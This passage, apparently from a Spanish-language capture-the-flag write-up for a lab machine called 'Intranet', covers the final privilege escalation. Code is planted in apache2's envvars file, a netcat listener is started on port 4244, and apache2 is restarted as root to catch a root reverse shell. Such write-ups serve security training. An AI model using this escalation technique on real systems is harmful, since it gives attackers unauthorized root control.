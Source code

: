 <figure><img src="../.gitbook/assets/Intranet/rev-shell-root.png" alt=""><figcaption></figcaption></figure>

Debemos colocar el código en `envvars`, iniciar el oyente de `nc` y reiniciar el servicio de `apache2` con los permisos de `root`.

```
nc -lvnp 4244
```

```
sudo -u root /sbin/service apache2 restart
```

<figure><img src="../.gitbook/assets/Intranet/sudo-l-root.png" alt=""><figcaption></figcaption></figure>

De esta manera, conseguimos la `shell` de `root` y sus permisos, lo que nos permite acceder a la última `flag`.
